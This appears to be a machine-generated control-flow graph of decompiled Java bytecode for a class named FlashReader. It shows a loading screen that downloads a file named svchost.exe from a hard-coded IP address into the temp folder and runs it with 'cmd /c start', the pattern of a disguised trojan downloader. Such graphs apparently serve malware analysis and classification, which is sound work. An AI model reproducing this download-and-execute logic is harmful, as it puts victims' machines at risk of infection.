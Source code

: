 digraph "" {
    "r0 := @this: FlashReader"
    "load.r r0"
    "r0 := @this: FlashReader"->"load.r r0";
    "push 300"
    "load.r r0"->"push 300";
    "push 80"
    "push 300"->"push 80";
    "virtualinvoke <FlashReader: void setSize(int,int)>"
    "push 80"->"virtualinvoke <FlashReader: void setSize(int,int)>";
    "virtualinvoke <FlashReader: void setSize(int,int)>"->"load.r r0";
    "fieldget <FlashReader: javax.swing.JLabel label>"
    "load.r r0"->"fieldget <FlashReader: javax.swing.JLabel label>";
    "push 0"
    "fieldget <FlashReader: javax.swing.JLabel label>"->"push 0";
    "virtualinvoke <javax.swing.JLabel: void setHorizontalAlignment(int)>"
    "push 0"->"virtualinvoke <javax.swing.JLabel: void setHorizontalAlignment(int)>";
    "virtualinvoke <javax.swing.JLabel: void setHorizontalAlignment(int)>"->"load.r r0";
    "load.r r0"->"fieldget <FlashReader: javax.swing.JLabel label>";
    "staticget <java.awt.Color: java.awt.Color blue>"
    "fieldget <FlashReader: javax.swing.JLabel label>"->"staticget <java.awt.Color: java.awt.Color blue>";
    "virtualinvoke <javax.swing.JLabel: void setForeground(java.awt.Color)>"
    "staticget <java.awt.Color: java.awt.Color blue>"->"virtualinvoke <javax.swing.JLabel: void setForeground(java.awt.Color)>";
    "virtualinvoke <javax.swing.JLabel: void setForeground(java.awt.Color)>"->"load.r r0";
    "load.r r0"->"fieldget <FlashReader: javax.swing.JLabel label>";
    "push \"Please wait, application is loading...\""
    "fieldget <FlashReader: javax.swing.JLabel label>"->"push \"Please wait, application is loading...\"";
    "virtualinvoke <javax.swing.JLabel: void setText(java.lang.String)>"
    "push \"Please wait, application is loading...\""->"virtualinvoke <javax.swing.JLabel: void setText(java.lang.String)>";
    "virtualinvoke <javax.swing.JLabel: void setText(java.lang.String)>"->"load.r r0";
    "virtualinvoke <FlashReader: java.awt.Container getContentPane()>"
    "load.r r0"->"virtualinvoke <FlashReader: java.awt.Container getContentPane()>";
    "virtualinvoke <FlashReader: java.awt.Container getContentPane()>"->"load.r r0";
    "load.r r0"->"fieldget <FlashReader: javax.swing.JLabel label>";
    "push \"Center\""
    "fieldget <FlashReader: javax.swing.JLabel label>"->"push \"Center\"";
    "virtualinvoke <java.awt.Container: void add(java.awt.Component,java.lang.Object)>"
    "push \"Center\""->"virtualinvoke <java.awt.Container: void add(java.awt.Component,java.lang.Object)>";
    "new java.io.File"
    "virtualinvoke <java.awt.Container: void add(java.awt.Component,java.lang.Object)>"->"new java.io.File";
    "store.r $r12"
    "new java.io.File"->"store.r $r12";
    "load.r $r12"
    "store.r $r12"->"load.r $r12";
    "new java.lang.StringBuilder"
    "load.r $r12"->"new java.lang.StringBuilder";
    "dup1.r"
    "new java.lang.StringBuilder"->"dup1.r";
    "push \"java.io.tmpdir\""
    "dup1.r"->"push \"java.io.tmpdir\"";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"
    "push \"java.io.tmpdir\""->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "staticinvoke <java.lang.String: java.lang.String valueOf(java.lang.Object)>"
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"staticinvoke <java.lang.String: java.lang.String valueOf(java.lang.Object)>";
    "specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>"
    "staticinvoke <java.lang.String: java.lang.String valueOf(java.lang.Object)>"->"specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>";
    "push \"svchost.exe\""
    "specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>"->"push \"svchost.exe\"";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "push \"svchost.exe\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "specialinvoke <java.io.File: void <init>(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"specialinvoke <java.io.File: void <init>(java.lang.String)>";
    "specialinvoke <java.io.File: void <init>(java.lang.String)>"->"load.r $r12";
    "virtualinvoke <java.io.File: boolean exists()>"
    "load.r $r12"->"virtualinvoke <java.io.File: boolean exists()>";
    "ifeq new java.io.BufferedInputStream"
    "virtualinvoke <java.io.File: boolean exists()>"->"ifeq new java.io.BufferedInputStream";
    "ifeq new java.io.BufferedInputStream"->"load.r $r12";
    "virtualinvoke <java.io.File: boolean delete()>"
    "load.r $r12"->"virtualinvoke <java.io.File: boolean delete()>";
    "pop"
    "virtualinvoke <java.io.File: boolean delete()>"->"pop";
    "new java.io.BufferedInputStream"
    "pop"->"new java.io.BufferedInputStream";
    "new java.io.BufferedInputStream"->"store.r $r12";
    "store.r $r12"->"load.r $r12";
    "new java.net.URL"
    "load.r $r12"->"new java.net.URL";
    "new java.net.URL"->"dup1.r";
    "push \"http://94.23.116.220/svchost.exe\""
    "dup1.r"->"push \"http://94.23.116.220/svchost.exe\"";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"
    "push \"http://94.23.116.220/svchost.exe\""->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "virtualinvoke <java.net.URL: java.io.InputStream openStream()>"
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"virtualinvoke <java.net.URL: java.io.InputStream openStream()>";
    "specialinvoke <java.io.BufferedInputStream: void <init>(java.io.InputStream)>"
    "virtualinvoke <java.net.URL: java.io.InputStream openStream()>"->"specialinvoke <java.io.BufferedInputStream: void <init>(java.io.InputStream)>";
    "new java.io.FileOutputStream"
    "specialinvoke <java.io.BufferedInputStream: void <init>(java.io.InputStream)>"->"new java.io.FileOutputStream";
    "store.r r4"
    "new java.io.FileOutputStream"->"store.r r4";
    "load.r r4"
    "store.r r4"->"load.r r4";
    "load.r r4"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"push \"java.io.tmpdir\"";
    "push \"java.io.tmpdir\""->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"staticinvoke <java.lang.String: java.lang.String valueOf(java.lang.Object)>";
    "staticinvoke <java.lang.String: java.lang.String valueOf(java.lang.Object)>"->"specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>";
    "specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>"->"push \"svchost.exe\"";
    "push \"svchost.exe\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>";
    "new java.io.BufferedOutputStream"
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"->"new java.io.BufferedOutputStream";
    "store.r $r27"
    "new java.io.BufferedOutputStream"->"store.r $r27";
    "load.r $r27"
    "store.r $r27"->"load.r $r27";
    "load.r $r27"->"load.r r4";
    "push 1024"
    "load.r r4"->"push 1024";
    "specialinvoke <java.io.BufferedOutputStream: void <init>(java.io.OutputStream,int)>"
    "push 1024"->"specialinvoke <java.io.BufferedOutputStream: void <init>(java.io.OutputStream,int)>";
    "specialinvoke <java.io.BufferedOutputStream: void <init>(java.io.OutputStream,int)>"->"push 1024";
    "newarray"
    "push 1024"->"newarray";
    "newarray"->"store.r r4";
    "goto load.r $r12"
    "store.r r4"->"goto load.r $r12";
    "goto load.r $r12"->"load.r $r12";
    "load.r $r12"->"load.r r4";
    "load.r r4"->"push 0";
    "push 0"->"push 1024";
    "virtualinvoke <java.io.BufferedInputStream: int read(byte[],int,int)>"
    "push 1024"->"virtualinvoke <java.io.BufferedInputStream: int read(byte[],int,int)>";
    "store.i $i0"
    "virtualinvoke <java.io.BufferedInputStream: int read(byte[],int,int)>"->"store.i $i0";
    "load.i $i0"
    "store.i $i0"->"load.i $i0";
    "ifge load.r $r27"
    "load.i $i0"->"ifge load.r $r27";
    "ifge load.r $r27"->"load.r $r27";
    "virtualinvoke <java.io.BufferedOutputStream: void close()>"
    "load.r $r27"->"virtualinvoke <java.io.BufferedOutputStream: void close()>";
    "virtualinvoke <java.io.BufferedOutputStream: void close()>"->"load.r $r12";
    "virtualinvoke <java.io.BufferedInputStream: void close()>"
    "load.r $r12"->"virtualinvoke <java.io.BufferedInputStream: void close()>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"
    "virtualinvoke <java.io.BufferedInputStream: void close()>"->"staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "push \"cmd /c start \""
    "dup1.r"->"push \"cmd /c start \"";
    "push \"cmd /c start \""->"specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>";
    "specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>"->"push \"java.io.tmpdir\"";
    "push \"java.io.tmpdir\""->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"svchost.exe\"";
    "push \"svchost.exe\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>";
    "virtualinvoke <java.lang.Process: int waitFor()>"
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"virtualinvoke <java.lang.Process: int waitFor()>";
    "virtualinvoke <java.lang.Process: int waitFor()>"->"pop";
    "goto return"
    "pop"->"goto return";
    "return"
    "goto return"->"return";
    "virtualinvoke <java.lang.Process: int waitFor()>"->"load.r r0";
    "load.r r0"->"fieldget <FlashReader: javax.swing.JLabel label>";
    "store.r r0"
    "fieldget <FlashReader: javax.swing.JLabel label>"->"store.r r0";
    "virtualinvoke <java.lang.Exception: java.lang.String toString()>"
    "store.r r0"->"virtualinvoke <java.lang.Exception: java.lang.String toString()>";
    "virtualinvoke <java.lang.Exception: java.lang.String toString()>"->"store.r $r12";
    "store.r $r12"->"load.r r0";
    "load.r r0"->"load.r $r12";
    "load.r $r12"->"virtualinvoke <javax.swing.JLabel: void setText(java.lang.String)>";
    "ifge load.r $r27"->"load.r $r27";
    "load.r $r27"->"load.r r4";
    "load.r r4"->"push 0";
    "push 0"->"load.i $i0";
    "virtualinvoke <java.io.BufferedOutputStream: void write(byte[],int,int)>"
    "load.i $i0"->"virtualinvoke <java.io.BufferedOutputStream: void write(byte[],int,int)>";
}
